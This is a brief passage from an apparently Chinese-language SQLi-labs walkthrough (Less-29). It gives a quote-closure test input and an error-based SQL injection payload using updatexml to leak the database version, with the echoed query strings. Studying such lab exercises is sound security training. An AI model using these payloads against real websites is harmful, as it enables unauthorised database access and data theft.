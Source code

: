 ![](img/less-28.1.png)

![](img/less-28.2.png)

## Less-29

+ 输入?id=2'  页面回显报错 ，通过报错信息 可知。 闭合方式： ‘  单引号 ，同时 ，单引号带入数据库时，被编码为 ’ --> %27  

+ 输入：
```bash
?id=2' or '1       		# 页面很和谐 ，Hint: The Query String you input is: id=2%27%20or%20%271
```

+ 注入Payload :
```bash
?id=2' and updatexml(1,concat('^',(select version()),'^'),1) or '1    # 注入成功，回显版本号 ，同时页面显示 ：Hint: The Query String you input is: id=2%27%20and%20updatexml(1,concat(%27^%27,(select%20version()),%27^%27),1)%20or%20%271
```
